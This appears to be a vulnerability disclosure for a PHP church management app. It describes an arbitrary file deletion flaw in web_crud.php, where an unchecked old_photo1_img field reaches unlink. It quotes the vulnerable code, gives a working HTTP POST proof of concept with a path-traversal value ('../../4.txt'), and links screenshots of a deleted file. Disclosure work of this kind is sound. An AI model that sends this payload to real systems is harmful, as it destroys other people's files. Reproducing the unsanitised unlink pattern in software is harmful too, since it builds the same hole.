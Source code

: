 ### Vulnerability file address

In line 163 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo1_img']);`,` $_POST['old_photo1_img']` parameters have not been restricted, which causes any file to be deleted

```php
if (isset($_POST['update2'])) {
        function generateUniqueFilename($file)
        {
            $file_extension = pathinfo($file['name'], PATHINFO_EXTENSION);
            $unique_filename = uniqid() . '.' . $file_extension;
            return $unique_filename;
        }

        if ($_FILES['photo1']['tmp_name'] != '') {
            $img = generateUniqueFilename($_FILES['photo1']);
            $filepath = "../../assets/images/" . $img;

            if (move_uploaded_file($_FILES["photo1"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo1_img']);
            }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update2"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo1_img"

../../4.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo1";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `4.txt` file in the `church/` directory

![image-20250504210310906](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042103944.png)

Then we execute the above poc to attack

![image-20250504210335161](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042103190.png)

Files are deleted after the attack is successful

![image-20250504210323699](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042103730.png)